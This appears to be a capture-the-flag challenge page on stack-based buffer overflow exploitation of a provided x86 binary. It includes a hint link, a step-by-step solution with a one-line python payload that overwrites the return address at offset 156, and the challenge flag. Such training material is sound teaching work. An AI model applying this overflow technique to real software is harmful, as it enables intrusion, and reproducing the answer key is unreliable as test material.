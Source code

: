 # ♻ Memories - L13 C05

Agent 707, we've intercepted a file sent between two gang members and it's confused our agents. When you execute the program it will give you a memory address for a function. See if you can exploit the binary to run the function.

**Tip:** Use a cyclic pattern tool.

<details><summary>

## Need a hint?</summary>

> 💡 Hint: [http://www.anonhack.in/2022/03/the-binary-exploitation-stack-based-buffer-overflow/](http://www.anonhack.in/2022/03/the-binary-exploitation-stack-based-buffer-overflow/)

</details>

## Files

- [program-x86](/assets/memories1)

<details><summary>

## Step by Step</summary>

- Download the program onto a Linux machine
- The offset is 156 for the cyclical pattern tool
- `Run python -c "print('A'*156+'\xb1\x84\x04\x08')" | ./filename.exe`
- The flag should show up

`flag: 4UPzOlkhlUBvY8bHikd`

</details>
